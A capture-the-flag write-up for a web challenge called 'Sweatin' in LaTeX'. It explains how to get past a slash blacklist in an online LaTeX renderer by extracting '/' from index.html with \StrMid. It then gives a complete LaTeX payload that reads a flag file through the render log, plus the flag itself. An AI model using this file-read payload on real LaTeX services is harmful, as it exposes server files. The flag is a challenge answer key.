 # Richard Simmons: Sweatin' in LaTeX
### Category: Web Exploitation
### Author: James Lowther (Articuler)

## Description
Richard Simmons' new workout "Sweatin' in LaTeX" is out now! See if you can shimmy your way to the flag!

## Solution
The website appears to be a renderer for LaTeX code. Writing LaTex and clicking "Generate PDF" gives a link to a rendered PDf. The output LOG of the LaTeX renderer will also be displayed. 

1. Looking at the source HTML indicates that we need to read the flag from a file found in `/sweatin/to/the/oldies/flag.txt`.
2. LaTeX has the ability to read files, however certain strings have been blacklisted. Most notably, `/` has been blacklisted making it challenging to create the path to read the file.
3. The `/` character however can be isolated from `index.html` using the `\StrMid` function from the `xstring` package.
4. Using this we can build the following LaTeX code that will read build the path and read the flag:
```
\documentclass{minimal}
\usepackage{xstring}

\def\a{sweatin}
\def\b{to}
\def\c{the}
\def\d{oldies}
\def\e{flag.txt}

\newread\file
\immediate\openin\file=index.html
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\StrMid{\fileline}{43}{43}[\s]
\immediate\message{\s}
\immediate\closein\file

\immediate\openin\file=\s\a\s\b\s\c\s\d\s\e
\loop\unless\ifeof\file
    \read\file to\fileline
    \message{\fileline}
\repeat
\closein\file

\begin{document}
\end{document} 
```

The flag can be found in the returned LOG data.

## Flag
magpie{r1ch4rd_l0v35_t0_5w34t}